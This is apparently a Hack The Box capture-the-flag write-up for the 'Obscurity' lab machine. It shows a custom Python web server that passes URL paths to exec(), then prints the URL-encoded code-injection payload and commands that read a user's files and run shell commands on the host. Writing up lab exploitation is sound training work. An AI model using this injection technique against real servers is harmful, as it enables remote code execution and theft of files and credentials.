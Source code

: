 # [Obscurity](https://www.hackthebox.eu/home/machines/profile/219)
## IP : 10.10.10.168

## **Step 0** : Ports Scan

![Port Scan Result](images/port_scan.png)

* Website : http://10.10.10.168:8080/

## __Step 1__ : Hints from the [home page](http://10.10.10.168:8080/).

> Message to server devs: the current source code for the web server is in __SuperSecureServer.py__ in the secret development directory`

After some tests the server is fuzzable from the root. Any file or folder can be returned by the browser.

![FFUF Report](images/ffuf_report.png)

* Server code : http://10.10.10.168:8080/develop/SuperSecureServer.py

## __Step 2__ : Understanding the custom made server

From *hints/SuperSecureServer.py* :
```python
def serveDoc(self, path, docRoot):
    ...
    path = urllib.parse.unquote(path)
    ...
    exec(info.format(path)) # This is how you do string formatting, right?
    ...
    return {"body": data, "mime": mime, "status": status}
```
The `path` parameter coming from the URL. So it's possible to inject python code from url. We need to encode with `urllib.quote()` the code to send it to the http server:

> http://obscurity/{urlib_quoted_python_code}

Also, the code shows that through this function, only the **mime** var can be used to get info back.

## **Step 3** : Injection & Enumeration

With code used in *lab/inject.py* :

![injection_result](images/inject_report.png)

We see that we're **user=www-data(uid=33)**

* Time to see what's Robert has for us :

![Clues,clues,clues](images/inject_robert.png)

We can't read **user.txt** yet.
But it seems we can have hints on the next step with the other files.

```
$ python3 lab/inject.py "open('/home/robert/passwordreminder.txt','r').read()"
Payload : %27%3BMIMES%5B%27html%27%5D%3Dopen%28%27/home/robert/passwordreminder.txt%27%2C%27r%27%29.read%28%29%3Ba%3D%27
Â´ÃÃÃÃÃ ÃÃÃÃ©Â¯Â·Â¿k
````
* Weird encoding, got password from Chrome : 

![thank_you_chrome](images/chrome_password.png)

To summarize : 
* User : **robert**
* Password : **´ÑÈÌÉàÙÁÑé¯·¿k**

Let's try that : 
```
$ ssh robert@10.10.10.168
robert@10.10.10.168's password: 
Permission denied, please try again.
```

### Time to enumerate more...

```
$ python3 lab/inject.py "open('/home/robert/check.txt','r').read()" 

Encrypting this file with your key should result in out.txt
make sure your key is correct! 

$ python3 lab/inject.py "open('/home/robert/out.txt','r').read()"

 ¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v

$ python3 lab/inject.py "os.popen('ls -l /home/robert/BetterSSH').readlines()"

['total 4'
 '-rwxr-xr-x 1 root root 1805 Oct  5 13:09 BetterSSH.py']
```